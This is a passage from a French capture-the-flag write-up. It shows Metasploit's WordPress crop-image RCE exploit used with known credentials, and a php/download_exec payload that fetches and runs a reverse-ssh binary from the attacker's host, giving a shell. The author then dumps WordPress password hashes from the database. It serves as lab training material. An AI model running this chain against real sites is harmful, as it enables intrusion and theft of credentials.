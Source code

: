 ```


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_crop_rce) > run

[*] Authenticating with WordPress using jerome:jerome...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[-] Exploit aborted due to failure: not-found: Can't find base64 decode on target
[*] Exploit completed, but no session was created.
```

Hmmm mon payload n'est pas passé, apparemment la commande base64 est manquante sur le système (?). Testons un autre paylad :

```
Payload options (php/download_exec):

   Name  Current Setting                     Required  Description
   ----  ---------------                     --------  -----------
   URL   http://192.168.56.1/reverse-sshx64  yes       The pre-encoded URL to the executable
```

Cette fois ça passe et mon reverse-ssh écoute bien sur le port par défaut :

```shellsession
$ ssh -p 31337 192.168.56.82
devloop@192.168.56.82's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jerome@jerome:/var/www/html/wordpress$ id
uid=1000(jerome) gid=1000(jerome) groups=1000(jerome),27(sudo)
```

## Point final

A tout hazard je récupère les identifiants de BDD dans la configuration Wordpress puis les hashs :

```
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email             | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | $P$Bgs0wlRRAvgDEhGK3qjutMytTHAt1X0 | root          | root@localhost.local   |          | 2019-04-03 18:04:42 |                     |           0 | root         |
|  4 | jerome     | $P$Bd6wPdlC7yTllqOHsa.TZFlLjVs1Hk1 | jerome        | jerome@localhost.local |          | 2019-04-16 13:58:43 |                     |           0 | jerome       |
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+--------------+
```
